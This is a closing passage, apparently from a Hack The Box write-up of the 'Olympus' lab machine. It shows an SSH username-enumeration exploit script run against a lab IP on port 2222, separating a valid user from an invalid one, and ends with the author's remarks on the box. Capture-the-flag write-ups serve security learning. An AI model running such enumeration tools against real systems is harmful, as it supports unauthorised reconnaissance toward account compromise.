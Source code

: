     
    
    root@kali# ./sshUsernameEnumExploit.py --port 2222 --username icarus 10.10.10.83
    icarus is a valid user!
    root@kali# ./sshUsernameEnumExploit.py --port 2222 --username icaruss 10.10.10.83
    icaruss is not a valid user!
    

All of that said, I really enjoyed this box, and it’s clear path of
interesting challenges.

[](/2018/09/22/htb-olympus.html)

